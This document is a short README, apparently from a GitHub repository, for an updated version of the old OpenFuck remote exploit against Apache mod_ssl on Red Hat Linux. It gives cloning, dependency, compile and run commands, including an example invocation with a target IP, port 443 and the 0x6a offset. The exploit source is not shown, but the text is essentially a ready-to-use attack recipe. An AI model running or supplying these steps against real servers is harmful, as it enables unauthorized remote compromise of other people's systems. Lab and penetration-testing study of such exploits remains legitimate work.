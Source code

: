 # OpenLuck
Original is OpenFu*&%$#, I change for something more elegant

## Usage

This Exploit (https://www.exploit-db.com/exploits/764/) is outdated. Here you can take updated

1. Download OpenFuck.c
```
git clone https://github.com/heltonWernik/OpenFuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenFuck OpenFuck.c -lcrypto
````

4. Running the Exploit
```
./OpenFuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenFuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenFuck 0x6a 192.168.80.145 443 -c 40
```

**References:**
https://kongwenbin.wordpress.com/tag/openfuck/
https://medium.com/@javarmutt/how-to-compile-openfuckv2-c-69e457b4a1d1
